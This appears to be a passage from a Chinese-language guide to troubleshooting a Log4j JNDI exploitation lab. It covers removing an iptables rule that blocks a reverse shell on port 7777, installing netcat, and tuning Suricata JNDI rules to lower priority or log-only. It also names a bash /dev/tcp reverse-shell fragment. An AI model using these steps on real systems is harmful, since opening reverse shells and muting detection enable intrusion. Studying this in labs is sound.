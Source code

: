 - Shell 反弹端口被防火墙或 iptables 拦截
- 容器内环境未配置 `bash` 或 `sh`
- `nc` 命令不可用或权限不足

**➡️ 解决方法：**

1. **查看反弹 shell 监听端口是否被拦截：**

```bash
iptables -L -n
```

➡️ 如果端口 `7777` 被 DROP 或 REJECT，需要解除限制：

```bash
iptables -D OUTPUT -p tcp --dport 7777 -j DROP
```

1. **在容器中确认 `bash`、`nc` 是否存在：**

```bash
which bash
which nc
```

➡️ 如果缺失，尝试安装或换用其他方法：

```bash
apt update && apt install netcat
```

------

### 🚩 **3. Suricata 在 URI 解析阶段触发了警报**

✅ Suricata 检测是基于特征匹配的，例如 `{jndi:ldap://...}` 和 `base64` 可能已经在规则中标记为高危流量。
 ✅ 即使实际的 JNDI 解析因缓解措施而失败，Suricata 仍然会报告“企图利用”行为。

**➡️ 解决方法：**

- 如果你只是做实验，可以在 Suricata 中调整规则优先级（降低误报率）：
   在 `/etc/suricata/rules/custom.rules` 中，设置为“低优先级”或“监控模式”：

```shell
alert tcp any any -> any any (msg:"LOG4J Exploit Attempt"; content:"${jndi:"; nocase; sid:1000001; rev:2; priority:low;)
```

- 或者设置为“日志”而不是“警报”：

```shell
log tcp any any -> any any (msg:"LOG4J Exploit Attempt Detected"; content:"${jndi:"; nocase; sid:1000001; rev:2;)
```

------

### 🚩 **4. 命令注入被 bash 或 shell 拦截**

✅ 某些 Linux 发行版或容器环境可能会在 `bash` 启动时阻止特定的危险命令执行（如 `bash -i >& /dev/tcp/...`）。
